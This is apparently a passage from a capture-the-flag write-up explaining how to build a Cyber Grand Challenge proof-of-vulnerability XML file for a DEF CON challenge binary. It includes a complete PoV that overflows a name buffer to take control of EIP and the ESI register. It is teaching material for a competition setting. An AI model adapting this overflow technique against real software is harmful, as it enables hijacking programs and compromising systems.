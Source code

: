 It needs a lot of work though but its a start. From the top we read down. We can skip past the header and the cbid value. These are required but for Defcon “service” worked here.

Onto the “negotiate” phase. This is where your PoV negotiates with the challenge server on the terms of what you intend to prove and any parameters that you need for example, an “ipmask” and a “regmask”. These are bit masks that may need to be applied if you don’t have perfect EIP/register control (I guess?). We don’t need a bitmask so we need to change those both to: 0xffffffff. Next we specify the register we know we can control using the list found here. In my case it was ESI, “regnum = 6.

Our PoV so far:

```
<?xml version="1.0" standalone="no" ?>
<!DOCTYPE cfepov SYSTEM "/usr/share/cgc-docs/cfe-pov.dtd">
<cfepov>
<cbid>service</cbid>
<replay>
    <negotiate><type1><ipmask>0xffffffff</ipmask><regmask>0xffffffff</regmask><regnum>6</regnum></type1></negotiate>
```

Moving forward we see our “read” section. In this section we get to specify our communications with the binary on stdin/stdout in both reads and writes. This specifies for example, what steps the machine verification needs to follow to get to the vulnerable code.

The first parts pretty easy, we do these steps:

- We “read” 38 bytes of the menu data
- len(“1) Gimme Name\n2) Print Name\n3) Exit\n: “) = 38 bytes
- Then we write “1\n” to get to the Name entering code
- Then we send our long string

The way we specify this is:

```
    <read echo="yes"><length>38</length></read>
    <write><data>1\x0a</data></write>
    <read echo="yes"><length>12</length></read>
    <write><data>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xae\xaa\xba</data>
           <var>TYPE1_REG</var>
           <data>BBBB</data>
           <var>TYPE1_IP</var>
           <data>BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x0a</data></write>
```

A bit of explanation here. Remember when we mentioned we’re “negotiating” with the challenge framework? Well part of that is that the machine tells us what it wants us to set EIP and our register to. This is unique every run. So we specify that with the two special data sections called “var” and the special var names “TYPE1_IP” and TYPE1_REG”.

Our entire PoV looks like this:

```
<?xml version="1.0" standalone="no" ?>
<!DOCTYPE cfepov SYSTEM "/usr/share/cgc-docs/cfe-pov.dtd">
<cfepov>
<cbid>service</cbid>
<replay>
    <negotiate><type1><ipmask>0xffffffff</ipmask><regmask>0xffffffff</regmask><regnum>6</regnum></type1></negotiate>
    <read echo="yes"><length>38</length></read>
    <write><data>1\x0a</data></write>
    <read echo="yes"><length>12</length></read>
    <write><data>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xae\xaa\xba</data>
           <var>TYPE1_REG</var>
           <data>BBBB</data>
           <var>TYPE1_IP</var>
           <data>BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x0a</data></write>
</replay>
```